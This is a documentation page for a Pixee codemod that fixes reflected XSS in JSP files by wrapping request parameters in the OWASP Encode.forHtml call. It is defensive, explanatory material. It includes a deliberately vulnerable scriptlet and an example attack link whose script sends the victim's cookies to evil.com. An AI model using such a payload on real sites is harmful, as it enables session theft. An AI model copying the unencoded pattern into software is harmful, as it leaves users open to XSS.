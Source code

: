 ```yaml
---
title: "Encode Untrusted Scriptlet Contents"
sidebar_position: 1
---
```


## pixee:java/encode-jsp-scriptlet

| Importance | Review Guidance            | Requires SARIF Tool |
|------------|----------------------------|---------------------|
 | High       | Merge After Cursory Review | No                  |


This codemod encodes certain JSP scriptlets to fix what appear to be trivially exploitable [Reflected Cross-Site Scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting) vulnerabilities in JSP files. XSS is a vulnerability that is tricky to understand initially, but really easy to exploit.

Consider the following example code:

```java
Welcome to our site <%= request.getParameter("name") %>
```

An attacker could construct a link with an HTTP parameter `name` containing malicious JavaScript and send it to the victims, and if they click it, cause it to execute in the victims' browsers in the domain context. This could allow attackers to exfiltrate session cookies and spoof their identity, perform actions on victim's behalf, and more generally "do anything" as that user. Here's an example of such an evil link used by attacker to leak the victim's cookies back to their evil site logs:

`https://bank.com/search?name=<script>document.location='http://evil.com/?'+document.cookie</script>`

Our changes introduce an HTML-encoding mechanism that look something like this:

```diff
-Welcome to our site <%= request.getParameter("name") %>
+Welcome to our site <%= org.owasp.encoder.Encode.forHtml(request.getParameter("name")) %>
```

This change encodes HTML control characters that attackers would use to execute code. 

If you have feedback on this codemod, [please let us know](mailto:feedback@pixee.ai)!

## F.A.Q. 

### Why is this codemod marked as Merge After Cursory Review?

This change is safe and effective in almost all situations. However, depending on the context in which the scriptlet is rendered (e.g., inside an HTML tag, in JavaScript, unquoted contexts, etc.), you may need to use another encoding method. Check out the [OWASP XSS Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) to learn more about these cases and other controls you may need in exceptional cases. The security control introduced from OWASP used has `forHtml()` variants for all situations (e.g., `forJavaScript()`, `forCssString()`).

## Codemod Settings

N/A

## References
* [Security Control (OWASP Encode.java) source code](https://github.com/OWASP/owasp-java-encoder/blob/main/core/src/main/java/org/owasp/encoder/Encode.java#L143)
* [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
* [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
